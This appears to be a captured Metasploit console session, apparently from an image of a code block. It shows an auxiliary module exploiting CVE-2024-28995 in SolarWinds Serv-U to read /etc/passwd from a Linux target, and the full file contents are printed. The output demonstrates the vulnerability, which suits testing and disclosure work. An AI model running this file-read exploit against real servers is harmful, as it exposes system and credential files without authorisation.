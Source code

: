```
[+] The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Linux 64-bit; Version: 6.5.0-15-generic)
[*] Reading file /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:115::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:116:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:117::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
nm-openvpn:x:120:126:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:121:128::/var/lib/saned:/usr/sbin/nologin
colord:x:122:129:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:123:130::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:124:131:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:126:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:127:133:Gnome Display Manager:/var/lib/gdm3:/bin/false
mysql:x:128:136:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:129:137:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
xrdp:x:130:138::/run/xrdp:/usr/sbin/nologin

[*] Auxiliary module execution completed
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > 
```
